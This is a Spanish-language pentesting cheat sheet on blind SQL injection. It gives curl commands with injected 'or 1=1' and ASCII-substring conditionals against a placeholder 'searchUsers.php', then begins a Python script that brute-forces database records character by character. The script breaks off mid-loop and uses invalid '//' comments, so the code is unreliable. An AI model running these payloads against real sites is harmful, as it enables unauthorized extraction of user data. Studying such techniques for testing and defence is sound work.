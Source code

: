 ## Inyección SQL a ciegas

>Si la página web no muestra ningún output al realizar querys estamos ante una posible sqli a ciegas que podemos determinar gracias a una **sqli por tiempo de espera** o una **sqli condicional**.
>Te puedes dar cuenta si algún codigo de estado cambia según tu query de si hay algún condicional que te de un código de estado distinto según si tu petición existe en la base de datos o no.
>

## SQLI condicional

>Enviar por GET para ver códigos de estados de querys inyectadas mediante url:

```bash
curl -s -I -X GET "http://nombre/searchUsers.php" -G --data-urlencode "id=1 or 1=1"
```

>Ver por ejemplo mediante condicional si la primera letra del primer username es una "a". Recordar que a en ascii es 97. Donde según la página si es true devolverá un status code de 200 o de 404 si es un false.

```bash
curl -s -I -X GET "http://nombre/searchUsers.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)"
```

#### Python Scripting para probar todos los posibles caracteres de un registro y obtenerlo por fuerza bruta

Debes conocer la tabla para usar esto

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
from pwn import * //Instalar pwn con apt

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1);

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://ejemplo/searchUsers.php"
characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")

	time.sleep(2)

	p2 = log.progress("Datos extraídos")

	extracted_info = ""

	for position in range (1, 350):
		for character in range(33, 126):
			//Modificar query sql a gusto
```